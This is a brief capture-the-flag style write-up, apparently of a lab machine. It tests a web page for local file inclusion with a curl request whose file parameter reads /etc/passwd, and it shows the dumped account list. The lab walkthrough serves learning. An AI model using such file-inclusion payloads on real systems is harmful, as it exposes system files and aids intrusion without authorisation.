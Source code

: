 Hosting a webpage.

![](./attachments/Pasted%20image%2020220417174528.png)

Might be vulnerable to LFI (Local File Inclusion).

We can test this by inserting a path that we know exists. There are multiple to choose from, both `/etc/passwd` and `/etc/hosts` will do fine.

This will be a bit easier to do in `curl` so let's switch to that.

```console
┌──(kali㉿kali)-[~]
└─$ curl http://10.129.95.185/?file=/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
```